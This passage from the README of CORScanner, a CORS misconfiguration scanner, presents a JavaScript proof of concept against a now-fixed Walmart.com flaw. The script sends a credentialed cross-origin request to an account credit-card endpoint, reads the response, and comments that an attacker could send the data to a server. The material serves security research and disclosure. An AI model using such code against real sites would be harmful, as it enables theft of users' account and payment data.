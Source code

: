 ```python cors_scan.py -h```
Special_characters_bypass| Exploiting browsers’ handling of special characters. Most can only work in Safari except `_`, which can also work in Chrome and Firefox. See more in [Advanced CORS Exploitation Techniques](https://www.corben.io/advanced-cors-techniques/). Thanks [@Malayke](https://github.com/Malayke).
  
Welcome to contribute more.  
  
## Exploitation examples
Here is an example about how to exploit "Reflect_any_origin" misconfiguration on Walmart.com(fixed). Localhost is the malicious website in the video.

Walmart.com video on Youtube:

[![Walmart_CORS_misconfiguration_exploitation](https://github.com/chenjj/CORScanner/raw/master/images/walmart.png)](http://www.youtube.com/watch?v=3abaevsSHXY)

Here is the exploitation code:
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //display the data on the page. A real attacker can send the data to his server.
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>
```

If you have understood how the demo works, you can read Section 5 and Section 6 of the [CORS paper](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/) and know how to exploit other misconfigurations.

## License

CORScanner is licensed under the MIT license. take a look at the [LICENSE](./LICENSE) for more information.


## Credits
This work is inspired by the following excellent researches:
